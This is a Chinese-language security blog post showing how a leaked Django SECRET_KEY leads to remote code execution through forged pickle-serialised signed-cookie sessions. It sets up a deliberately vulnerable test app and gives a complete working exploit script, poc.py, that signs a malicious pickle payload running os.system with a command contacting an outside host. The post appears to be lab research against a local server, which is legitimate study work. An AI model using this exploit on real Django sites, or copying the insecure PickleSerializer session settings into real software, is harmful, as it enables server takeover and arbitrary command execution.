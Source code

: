 Title:django的secret key泄漏导致的命令执行实践
Date: 2018-02-01 10:20
Category: python安全
Tags: 反序列化,django,pickle,secret key,python
Slug: 
Authors: bit4woo
Summary: 

### 0x0、secret key的用途和泄漏导致的攻击面

secret key主要用于加密、签名，下面是[官方文档](https://docs.djangoproject.com/en/2.0/ref/settings/#secret-key)的说明：

The secret key is used for:

- All [sessions](https://docs.djangoproject.com/en/2.0/topics/http/sessions/) if you are using any other session backend than `django.contrib.sessions.backends.cache`, or are using the default[`get_session_auth_hash()`](https://docs.djangoproject.com/en/2.0/topics/auth/customizing/#django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash).
- All [messages](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/) if you are using [`CookieStorage`](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/#django.contrib.messages.storage.cookie.CookieStorage) or [`FallbackStorage`](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/#django.contrib.messages.storage.fallback.FallbackStorage).
- All [`PasswordResetView`](https://docs.djangoproject.com/en/2.0/topics/auth/default/#django.contrib.auth.views.PasswordResetView) tokens.
- Any usage of [cryptographic signing](https://docs.djangoproject.com/en/2.0/topics/signing/), unless a different key is provided.

secret key泄漏可能的攻击面：

- 远程代码执行，如果使用了cookie-based sessions。当然其他可以操作session_data的问题都可能导致
- 任意密码重置， contrib.auth.token.
- CSRF
- .......

我们主要关注远程代码执行这个点。

### 0x1、django session的几种方式

1. 数据库(database-backed sessions)，

比如下图，session的key和data都是存储在sqlite数据库中的，这是默认的设置，当用户带着cookie来请求服务端时，cookie中包含的是session_key，服务端会根据这个session_key来查询数据库，从而获取到session_data。即是说，session_data是存在服务端的。

![cooke_session](img/django_secret_key/cooke_session.png)

2. [缓存（cached sessions）](https://docs.djangoproject.com/en/dev/topics/cache/)
3. 文件系统（file-based sessions）
4. cookie(cookie-based sessions)

当django使用了这种方式的时候，和其它几种方式不同的是，它将session_data也是存在于cookie中的，即存在于客户端的。但它是经过签名的，签名依赖于django 的secret key，所以如果我们知道了secret key将可能修改session_data。这也是我们将要讨论的重点。



### 0x2、环境准备



 关于通过操作session来实现命令执行有一个很好的[案例](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)。在学习pickle反序列化的时候就看过，其中的关键是django在取得session_data之后，需要进行反序列化操作才能获取其中的数据。所以，如果能有机会操作session_data，就有可能构造出代码执行。

而我们这里关注的是secret key泄漏的情况，它有2个关键点：

1. 使用了cookie-based sessions
2. 使用了serializers.PickleSerializer（ django1.5级以下，session默认是采用pickle执行序列号操作`django.contrib.sessions.serializers.PickleSerializer`；在1.6 及以上版本默认采用json序列化。`django.contrib.sessions.serializers.JSONSerializer`）


djgano测试环境部署：

```python
#命令行下运行如下命令来创建项目
django-admin startproject testproject

#在项目中创建应用
cd testproject
python manage.py startapp testapp

#在setting.py中新增SESSION_ENGINE和SESSION_SERIALIZER配置。这是漏洞存在的必要条件！
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
#SESSION_SERIALIZER = 'django.contrib.sessions.serializers.JSONSerializer'
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
#因为我的环境中使用的django1.11，默认使用的是JSONSerializer，所以需要配置这一条。
```

urls.py的内容如下：

```python
from django.conf.urls import url
from django.contrib import admin
from testapp import views

urlpatterns = [
    url(r'.*$', views.index),
    url(r'^admin/', admin.site.urls),
]
```

views.py中的内容如下：

```python
# -*- coding: utf-8 -*-
from __future__ import unicode_literals

from django.shortcuts import render
from django.http import HttpResponse

# Create your views here.
def index(request):
    x= request.session
    print x.values
    print dir(x)
    print x.serializer
    print x['userid'] #这一句是关键，需要有尝试从session中取数据的行为，django才会去执行反序列
    return HttpResponse(x)
  
```

注意：必须要有尝试从session中取数据的行为，django才会去执行反序列，否则将不能触发！所以实际的环境中，最好选择用户信息相关接口等一定会取数据的接口进行测试。

以上就完成了环境的准备，运行`python manage.py runserver` 启动服务。



### 0x3、PoC及验证

关于pickle poc的生成方法，可以参考我之前的文章 [Python Pickle的任意代码执行漏洞实践和Payload构造](http://www.code2sec.com/python-picklede-ren-yi-dai-ma-zhi-xing-lou-dong-shi-jian-he-payloadgou-zao.html)

poc.py的内容如下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import os
import requests
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import pickle

def session_gen(SECRET_KEY,command = 'ping -n 3 test.0y0.link || ping -c test.0y0.link',):
    class Run(object):
        def __reduce__(self):
            #return (os.system,('ping test.0y0.link',))
            return (os.system,(command,))

    #SECRET_KEY = '1bb8)i&dl9c5=npkp248gl&aji7^x6izh3!itsmb6&yl!fak&f'
    SECRET_KEY = SECRET_KEY

    sess = signing.dumps(Run(), key = SECRET_KEY,serializer=PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
    #生成的恶意session
    print sess


    '''
    salt='django.contrib.sessions.backends.signed_cookies'
    sess = pickle.dumps(Run())
    sess = signing.b64_encode(sess)#通过跟踪signing.dumps函数可以知道pickle.dumps后的数据还经过了如下处理。
    sess = signing.TimestampSigner(key=SECRET_KEY, salt=salt).sign(sess)
    print sess
    #这里生成的session也是可以成功利用的，这样写只是为了理解signing.dumps。
    '''

    session = 'sessionid={0}'.format(sess)
    return session

def exp(url,SECRET_KEY,command):

    headers = {'Cookie':session_gen(SECRET_KEY,command)}
    proxy = {"http":"http://127.0.0.1:8080"}#设置为burp的代理方便观察请求包
    response = requests.get(url,headers= headers,proxies = proxy)
    #print response.content

if __name__ == '__main__':
    url = 'http://127.0.0.1:8000/'
    SECRET_KEY = '1bb8)i&dl9c5=npkp248gl&aji7^x6izh3!itsmb6&yl!fak&f'
    command = 'ping -n 3 test.0y0.link || ping -c test.0y0.link'
    exp(url,SECRET_KEY,command)
```

运行poc.py时，后台的输出结果：

![success](img/django_secret_key/success.png)

print x['userid']对应了2个动作，一是反序列化，也就是执行系统命令的关键；二是取值，这里是取值失败打印了错误信息，但是这已经不重要了，因为我们已经实现了我们的目的。

poc脚本最好使用原生的库或者方法来进行其中的payload生成操作。比如上面的poc.py中，可以使用signing.dumps，也可单独使用pickle.dumps然后加上其他操作，但是最好使用第一种，这样可以很好地保证payload的正确性。而且实际的环境中，如果能获取到目标的具体版本，最好通过配置相应版本的环境来完成poc的生成。

本文环境和代码的下载地址：

[https://github.com/bit4woo/code2sec.com/tree/master/code/testproject](https://github.com/bit4woo/code2sec.com/tree/master/code/testproject)

**参考：**

https://www.mxsasha.eu/blog/2013/04/26/proof-of-concept-arbitrary-remote-code-execution-pickle-sessions/  flask的payload生成器

https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html 

https://github.com/danghvu/pwp flask等其他python web框架中的相似问题

https://www.kevinlondon.com/2015/10/16/answers-to-django-security-questions.html

http://www.oschina.net/translate/python-web-framework-from-lfr-to-rce?print

https://systemoverlord.com/2014/04/14/plaidctf-2014-reekeeeee/

https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/

https://docs.djangoproject.com/en/1.11/topics/http/sessions/

http://xxlegend.com/2015/04/01/%E4%BB%8EDjango%E7%9A%84SECTET_KEY%E5%88%B0%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/